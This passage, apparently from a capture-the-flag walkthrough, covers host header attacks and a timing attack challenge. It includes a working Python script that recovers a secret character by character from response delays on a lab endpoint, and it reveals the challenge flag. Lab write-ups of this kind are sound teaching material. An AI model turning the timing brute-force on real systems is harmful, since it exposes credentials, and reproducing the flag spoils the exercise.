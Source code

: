 #### Real-Life Scenario

- **Host Header Attacks**: Manipulating the `Host` header can lead to cache poisoning or access to unintended content.
- **Virtual Host Misconfigurations**: Servers serving different content based on the `Host` header.

---

### 11. Timing Attack Challenge (`FLAG_18`)

**Endpoint**: `/timingAttack` (POST request)

#### Discovery

1. **Access Endpoint**: Observe that the server responds differently based on input timing.
2. **Suspect a Timing Attack Vulnerability**.

#### Solution

- **Understand the Challenge**:
  - The server delays response based on correct characters.
- **Automate the Attack**:
  - Write a script to measure response times for different inputs.
- **Example in Python**:

  ```python
  import requests
  import time

  url = "http://192.168.4.1/timingAttack"
  charset = "CTF{ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789_}"
  discovered = ""

  while True:
      max_time = 0
      next_char = ''
      for c in charset:
          test_input = discovered + c
          start_time = time.time()
          response = requests.post(url, data={'input': test_input})
          elapsed = time.time() - start_time
          if elapsed > max_time:
              max_time = elapsed
              next_char = c
      discovered += next_char
      print(f"Discovered so far: {discovered}")
      if next_char == '}':
          break
  ```

- **Flag**: `CTF{Timing_Is_Everything}`

#### Real-Life Scenario
